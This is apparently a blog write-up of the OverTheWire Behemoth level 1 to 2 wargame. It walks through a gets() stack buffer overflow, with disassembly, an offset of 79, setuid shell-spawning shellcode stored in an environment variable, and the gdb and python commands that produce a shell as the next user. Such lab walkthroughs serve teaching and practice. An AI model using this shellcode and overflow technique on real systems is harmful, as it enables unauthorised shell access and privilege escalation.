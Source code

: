```yaml
---
layout:     post
title:      "Overthewire.org - Behemoth 1 -> 2"
subtitle:   "Write-Up"
date:       2017-04-02 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```

<h1>Introduction</h1>

<p>Today we're going to attack another reverse engineering challenge from <b>Behemoth</b> series, to improve our knowledge in reverse engineering.  </p>

<h1>Challenge</h1>

<p>This one seems to behave quite similar as the <b>behemoth0</b> level, but unluckily we can't view the password like in the previous one. Let's dissasemble the binary. </p>

{% highlight asm %}
(gdb) disas main
Dump of assembler code for function main:
   0x0804845d <+0>:	push   %ebp
   0x0804845e <+1>:	mov    %esp,%ebp
   0x08048460 <+3>:	and    $0xfffffff0,%esp
   0x08048463 <+6>:	sub    $0x60,%esp
   0x08048466 <+9>:	movl   $0x8048530,(%esp)
   0x0804846d <+16>:	call   0x8048310 <printf@plt>
   0x08048472 <+21>:	lea    0x1d(%esp),%eax
   0x08048476 <+25>:	mov    %eax,(%esp)
   0x08048479 <+28>:	call   0x8048320 <gets@plt>
   0x0804847e <+33>:	movl   $0x804853c,(%esp)
   0x08048485 <+40>:	call   0x8048330 <puts@plt>
   0x0804848a <+45>:	mov    $0x0,%eax
   0x0804848f <+50>:	leave  
   0x08048490 <+51>:	ret    
End of assembler dump.
{% endhighlight %}

<p>Hmm, we have <b>printf</b>, <b>gets</b> and <b>puts</b> function. We will have to somehow exploit the <b>gets</b> function, by overflowing an buffer and then possibly we will be able to spawn a shell. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ python -c 'print "A"*200' | ./behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault
{% endhighlight %}

<p>Great, now we have something to focus on. This time, I wanted to find an offset not by brute forcing (also known as guessing), but by running <b>pattern_offset.rb</b> on the value in <b>EIP</b> - which resulted in number <b>79</b>. But how can we store the shellcode, since nothing is actually stored in the binary?  </p>

<p>In one of the <b>Narnia</b> levels, we used enviromental variable as the way to store the shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ export EGG=$(python -c 'print "\x90"*100+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
{% endhighlight %}

<p>Now we can use a tool like <a href="https://github.com/Partyschaum/haxe/blob/master/getenvaddr.c"><b>getenvaddr</b></a> to get the address of the enviromental variable <b>EGG</b>. </p>

{% highlight bash %}
behemoth1@melinda:/tmp$ mkdir muuuuu
behemoth1@melinda:/tmp$ cd muuuuu
behemoth1@melinda:/tmp/muuuuu$
behemoth1@melinda:/tmp/muuuuu$ touch getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ nano getenvaddr.c
behemoth1@melinda:/tmp/muuuuu$ gcc getenvaddr.c -o getenvaddr
behemoth1@melinda:/tmp/muuuuu$ ./getenvaddr EGG /behemoth/behemoth1
EGG will be at 0x7fffffffe8ac
behemoth1@melinda:/tmp/muuuuu$
{% endhighlight %}

<p>Unluckily it didn't seem to work, so I had to come up with another solution, using <b>gdb</b>. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$ gdb behemoth1
(gdb) break *0x08048479
Breakpoint 1 at 0x8048479
(gdb) run
Starting program: /games/behemoth/behemoth1

Breakpoint 1, 0x08048479 in main ()
(gdb) x/s *((char **)environ)
0xffffd828:	"XDG_SESSION_ID=478012"
(gdb) x/s *((char **)environ+1)
0xffffd83e:	"SHELL=/bin/bash"
(gdb) x/s *((char **)environ+2)
0xffffd84e:	"TERM=xterm-256color"
(gdb) x/s *((char **)environ+3)
0xffffd862:	"SSH_CLIENT=89.64.16.127 33128 22"
(gdb) x/s *((char **)environ+4)
0xffffd883:	"SSH_TTY=/dev/pts/12"
(gdb) x/s *((char **)environ+5)
0xffffd897:	"LC_ALL=C"
(gdb) x/s *((char **)environ+6)
0xffffd8a0:	"EGG=", '\220' <repeats 100 times>, "\061\333\215C\027\231\315\200\061\311Qhn/shh//bi\215A\v\211\343\315\200"
{% endhighlight %}

<p>Great, now we have to only point the address to our shellcode. </p>

{% highlight bash %}
behemoth1@melinda:/behemoth$  python -c 'print "A"*79+"\xb0\xd8\xff\xff"' | ./behemoth1
Password: Authentication failure.
Sorry.
behemoth1@melinda:/behemoth$ (python -c 'print "A"*79+"\xb0\xd8\xff\xff"';cat) | ./behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
*******
{% endhighlight %}

<p>As you may know, the first try didn't work because the shellcode opened the shell without any arguments, resulting in immediate close. Adding <b>cat - </b> allowed us to keep the shell open, and view the password. </p>

<h1>Conclusion</h1>
<p>Fun as always, and very educational. Thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>!</p>
<p>I would also like to point out that if you're thinking about starting journey with CTF challenges <a href="https://picoctf.com/"><b>PicoCTF</b></a> is running now, with a lot of great challenges. Check that out if you're interested!</p>
